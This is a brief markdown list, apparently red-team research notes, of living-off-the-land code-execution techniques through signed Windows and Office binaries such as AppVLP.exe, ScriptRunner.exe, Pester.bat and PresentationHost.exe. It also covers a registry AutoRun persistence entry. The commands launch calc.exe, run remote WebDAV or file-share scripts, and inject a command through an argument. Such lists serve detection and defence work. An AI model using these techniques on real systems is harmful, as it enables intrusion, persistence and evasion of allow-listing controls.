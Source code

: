 # Code Execution...
Generally useless ways to exec code.

## appvlp.exe
```
C:\Program Files (x86)\Microsoft Office\root\client\AppVLP.exe powershell.exe -c "$e=New-Object -ComObject shell.application;$e.ShellExecute('calc.exe', '', '', 'open', 1)"
C:\Program Files (x86)\Microsoft Office\root\client\AppVLP.exe powershell.exe -c "$e=New-Object -ComObject excel.application;$e.RegisterXLL('\\webdav\xll_poc.xll')"
C:\Program Files (x86)\Microsoft Office\root\client\AppVLP.exe \\webdav\calc.bat
```

## scriptrunner.exe
```
C:\Windows\System32\ScriptRunner.exe -appvscript "\\fileserver\calc.cmd"
C:\Windows\System32\ScriptRunner.exe -appvscript powershell.exe -args
```

## pester.bat
```
C:\Program Files (x86)\WindowsPowerShell\Modules\Pester\3.4.0\bin\Pester.bat help  "; Get-Process"
```

##  powershellcustomhost.exe (Likely installed with IIS)
```
C:\Program Files\IIS\Microsoft Web Deploy V3\Scripts\powershellcustomhost.exe calc.ps1
```

## presentationhost.exe 
```
PresentationHost.exe file://c:\windows\system32\calc.exe
```

## command processor
```
reg add "HKCU\Software\Microsoft\Command Processor" /v AutoRun /d "start calc.exe"
open a command prompt and calculate.
```
